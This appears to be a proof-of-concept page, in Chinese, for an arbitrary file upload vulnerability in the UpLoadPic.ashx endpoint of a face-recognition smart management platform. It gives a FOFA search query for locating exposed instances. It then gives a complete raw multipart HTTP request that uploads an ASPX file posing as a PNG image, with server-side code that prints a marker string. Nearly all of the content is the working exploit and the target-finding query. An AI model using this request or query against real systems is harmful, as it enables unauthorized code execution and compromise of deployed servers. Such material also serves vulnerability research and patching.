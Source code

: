 ## 脸爱云一脸通智慧管理平台存在UpLoadPic.ashx文件上传漏洞

## fofa
```
body="View/UserReserved/UserReservedTest.aspx"
```

## poc
```
POST /UpLoadPic.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Content-Length: 431
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywt7cEu1eBdibB13u
X-Requested-With: XMLHttpRequest

------WebKitFormBoundarywt7cEu1eBdibB13u
Content-Disposition: form-data; name="action"

post
------WebKitFormBoundarywt7cEu1eBdibB13u
Content-Disposition: form-data; name="myPhoto"; filename="1.aspx"
Content-Type: image/png

<% response.write("FC5E038D38A57032085441E7FE7010B0") %>

------WebKitFormBoundarywt7cEu1eBdibB13u
Content-Disposition: form-data; name="oldName"


------WebKitFormBoundarywt7cEu1eBdibB13u--
```

![619efcae85a32a8fdae1b493ff2b8959](https://github.com/wy876/POC/assets/139549762/e9fd66c1-a64f-4f77-be49-cd53198aabe9)
